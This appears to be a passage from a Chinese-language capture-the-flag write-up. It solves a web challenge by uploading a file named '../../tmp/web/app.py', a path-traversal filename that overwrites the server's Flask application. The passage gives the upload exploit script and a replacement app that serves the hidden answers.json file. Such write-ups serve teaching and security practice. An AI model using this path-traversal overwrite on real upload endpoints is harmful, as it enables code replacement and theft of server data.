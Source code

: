 解决方案就是把上传的文件名改成软链接，这样上传的文件会直接覆盖掉`/tmp/web/app.py`，上传的文件就随意些写一个读取并返回`answer.json`的route即可。

```python
import os
import requests
import json

def create_and_upload_file():
    # # 1. 创建一个看似正常的JSON文件
    # payload = [0] * 50000  # 创建50000个0的数组
    # filename = "payload.json"
    
    # # 将payload写入文件
    # with open(filename, 'w') as f:
    #     json.dump(payload, f)
    
    filename = "exp_ans.py"

    # 2. 上传文件
    url = "https://chal02-selrm3q9.hack-challenge.lug.ustc.edu.cn:8443/submit"
    
    # 设置特殊的文件名，尝试创建软链接
    files = {
        'file': ('../../tmp/web/app.py', open(filename, 'rb'), 'application/json')
    }
    
    # 发送请求
    response = requests.post(url, files=files)
    print(f"Status Code: {response.status_code}")
    print(f"Response: {response.text}")
    
    # # 3. 清理临时文件
    # os.remove(filename)

if __name__ == "__main__":
    create_and_upload_file()
```

exp_ans.py:

```python
from flask import Flask, jsonify
import json

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    try:
        with open('answers.json', 'r') as f:
            answers = json.load(f)
            return jsonify({"answers": answers})
    except Exception as e:
        return jsonify({"error": str(e)})

if __name__ == '__main__':
    app.run()
```
